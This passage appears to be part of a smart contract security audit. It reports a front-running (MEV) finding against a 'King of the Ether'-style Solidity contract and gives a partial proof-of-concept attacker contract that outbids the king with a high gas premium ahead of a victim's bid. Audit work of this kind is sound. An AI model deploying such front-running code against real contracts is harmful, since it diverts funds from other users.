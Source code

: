   ```code
        require(ok, "withdraw failed");

        emit Withdrawn(msg.sender, amount);
    }

    function _king() public view returns (address) {
        return king;
    }
}
```
  
### F-02
**Severity:** High  
**Category:** MEV / Economic

#### Description:
  An attacker can observe when an order of becoming a king is place, than he would place an order with an higher gas.

#### Impact:
  So the attacker would get a part of the difference and the old king will not get the full amount that he would receive.
  
### Proof of Concept:
  ```code
  // SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// Import the interface/contract definition for the King contract
// This allows the attacker contract to interact with it.
interface IKing {
    function prize() external view returns (uint256);
    function _king() external view returns (address);
}

/**
 * @title FrontRunnerAttack
 * @notice This contract performs a front-running attack on the King contract.
 * @dev The goal is to place a minimal bid (Tx A) with high gas just before 
 * a known large victim bid (Tx V) is processed, ensuring Tx A is mined first.
 * The attacker (this contract) becomes the king, and Tx V then pays the attacker.
 */
contract FrontRunnerAttack {
    IKing public immutable target;

    // Address that deployed this contract (for withdrawals)
    address public immutable deployer;

    constructor(address _targetAddress) payable {
        target = IKing(_targetAddress);
        deployer = msg.sender;
    }

    /**
     * @notice The attacker's move (Tx A). Sends a minimal required bid to become the new king.
     * @dev This transaction must be sent with a very high gas premium (priority fee)
     * to ensure it's mined BEFORE the victim's high-value transaction (Tx V).
     */
    function frontRunVictim() public payable {
        // Ensure the amount sent covers the current prize.
        uint256 currentPrize = target.prize();
        require(msg.value > currentPrize, "Attacker bid must be greater than current prize.");
        
  ```